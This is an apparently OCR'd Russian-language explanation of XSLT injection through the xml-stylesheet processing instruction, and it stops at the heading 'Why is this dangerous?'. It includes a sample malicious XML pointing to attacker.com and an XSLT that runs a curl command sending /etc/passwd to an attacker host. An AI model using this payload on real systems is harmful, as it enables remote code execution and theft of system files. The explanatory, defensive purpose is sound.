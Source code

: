 #### **Что делает этот XML вредоносным?**

##### **1. Ключевая инструкция: `<?xml-stylesheet?>`**

Строка `<?xml-stylesheet type="text/xsl" href="attack.xsl"?>` — это **Processing Instruction**, которая говорит XML-процессору:

> _"Для обработки этого XML-документа используй XSLT-преобразование из файла 'attack.xsl'"_

##### **2. Контекст атаки**

**Представьте уязвимое приложение, которое:**

- Принимает XML от пользователя
- Автоматически применяет XSLT-преобразование, указанное в `<?xml-stylesheet?>`
- Имеет доступ к файловой системе или может загружать внешние ресурсы

**В этом случае злоумышленник может:**

1. **Создать вредоносный XSLT-файл** (`attack.xsl`) с кодом для RCE, чтения файлов и т.д.
2. **Разместить его в доступном месте** (на своем сервере, в загружаемой директории приложения и т.п.)
3. **Передать свой XML**, который заставит приложение выполнить этот вредоносный XSLT

##### **3. Пример полной атаки**

```xml
<!-- Вредоносный XML от пользователя -->
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="http://attacker.com/malicious.xsl"?>
<data>Anything</data>
```

```xml
<!-- Содержимое malicious.xsl на сервере злоумышленника -->
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                              xmlns:java="http://saxon.sf.net/"
                              extension-element-prefixes="java">
  <xsl:template match="/">
    <result>
      <!-- Выполнение произвольной команды на сервере -->
      <xsl:value-of select="java:runtime.exec('curl http://attacker.com/steal?data=$(cat /etc/passwd)')"/>
    </result>
  </xsl:template>
</xsl:stylesheet>
```

##### **4. Альтернативные сценарии использования**

Даже если приложение игнорирует `<?xml-stylesheet?>`, аналогичная атака возможна, когда:

- **Приложение позволяет пользователю загружать обе части**: и XML, и XSLT
- **XSLT жестко задан в приложении, но содержит уязвимости**
- **Атакующий может влиять на путь к XSLT через параметры**

##### **5. Почему это опасно?**
